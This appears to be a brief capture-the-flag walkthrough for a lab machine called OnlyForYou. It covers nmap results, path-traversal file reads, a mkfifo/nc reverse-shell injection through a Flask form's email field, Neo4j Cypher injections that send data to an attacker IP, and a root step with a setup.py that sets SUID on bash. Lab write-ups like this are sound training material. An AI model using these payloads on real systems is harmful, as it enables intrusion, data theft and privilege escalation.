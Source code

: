 ## OnlyForYou

```
Nmap scan report for only4you.htb (10.10.11.210)
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Only4you
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

``` 


domain : http://only4you.htb



## Subdomain 


http://beta.only4you.htb


in /download find this source.zip which reveal the FLASK app.... and found also a Path traversal in /dowload 



## Vulnerability LFI 



/download 

image=/etc/passwd	


/var/www/only4you.htb/app.py  -- flask
---------------------/form.py 


resutl = run([f"dig txt {domain}"], shell=True, stdout=PIPE))


f'{email}' uscire con grep e inserire un payload mkfifo coderpwner@code.com|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 4444 >/tmp/f



port forward in 8001 


neo4j console 


search... found a database injection 



Version neo4j database

```sql
 OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://IP:80/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Label


```
 ' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://IP:80/?label='+label as l RETURN 0 as _0 //
```



User table 


```
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://IP:80/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```



## ROOT

https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/


`sudo -l pip3 download http://iP/*tar.gz`


setup.py 


```python

from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os


def command():
	os.system("chmod u+s /bin/bash")


```





